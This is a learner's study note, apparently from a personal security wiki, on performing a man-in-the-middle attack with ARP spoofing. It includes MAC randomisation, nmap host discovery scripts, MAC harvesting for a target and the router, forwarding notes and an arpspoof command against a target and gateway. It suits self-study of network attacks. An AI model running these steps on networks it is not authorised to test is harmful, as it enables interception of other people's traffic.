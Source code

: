 # TODO - Man in the Middle with ARP spoofing

Welcome again :D&#x20;

Im actually pleased of myself because Im explaining to me and Im actually understanding something LOL

## Recap

### change the MAC

```
sudo macchanger -r eth0 
```

### reverse DNS request to get all the hostname

and find the target

```bash
nmap -sL 192.168.1.0/24
# -sL     reverse DNS resolution (send no packet to the host, 
                only to the DNS server probably)
```

<details>

<summary>scan all your LAN</summary>

```bash
#! /bin/bash

ip=$(hostname -I | awk '{print $1}')
ip="${ip##*( )}"
ip_selected=()

if [[ "$ip" == *"$192"* ]]; then
    ip_selected=192.168.0.0/16
elif [[ "$ip" == *"$172"* ]]; then
    ip_selected=172.16.0.0/12
elif [[ "$ip" == *"$10"* ]]; then
    ip_selected=10.0.0.0/8
fi

# echo "$ip_selected"
nmap -sL "$ip_selected" | grep -e \( | awk -Ffor '{print $2}'
```

</details>

### check if host is alive

{% embed url="https://security.stackexchange.com/questions/36198/how-to-find-live-hosts-on-my-network" %}

```bash
nmap -sn 192.168.1.68

# -sn     disable port scan
# -sn is the same as -sP (Ping scan)
# this command is not 100% reliable, it is reliable enough though
```

{% embed url="https://unix.stackexchange.com/questions/87935/nmap-sn-scan-or-no-scan" %}

## Get MAC addrs

A script could be useful.

```
./basic_mitm 192.168.1.68 192.168.1.1
```

```
-n     no DNS resolution 
-sP    skip port scan
```

```bash
#!/bin/bash

echo "$1"
echo "$2"

mac1=$(sudo nmap -nsP "$1" | grep MAC | awk -F\  ' { print $3 } ' )
mac2=$(sudo nmap -nsP "$2" | grep MAC | awk -F\  ' { print $3 } ' )

echo "$mac1"
echo "$mac2"
```

## Packet redirect

Now a method is needed to be able to not block the connection of the target host with the router.

<details>

<summary>How can I forward using MAC addrs, or IP?</summary>

* _bridge_ command from iproute2 package
* iptables mac command
* ebtables

</details>

linux mac forwarding

## [iptables](todo-iptables.md)

### MAC forwarding

As if we were switches we could use MAC addresses to forward data at the data link layer (layer 2) of the OSI model.&#x20;

{% embed url="https://serverfault.com/questions/293786/is-there-a-tool-like-route-in-linux-to-configure-the-forwarding-entry-dst-mac" %}

{% embed url="https://en.wikipedia.org/wiki/MAC-Forced_Forwarding" %}

{% embed url="https://linux.die.net/man/8/iptables" %}

{% hint style="info" %}
iptables command has a "mac" section that could be useful
{% endhint %}

## ARP spoofing

```
sudo arpspoof -i eth0 -t 192.168.1.68 -r 192.168.1.1 
```

## Sources

{% embed url="https://www.cyberciti.biz/tips/iptables-mac-address-filtering.html" %}

{% embed url="https://explainshell.com/explain/1/nmap" %}
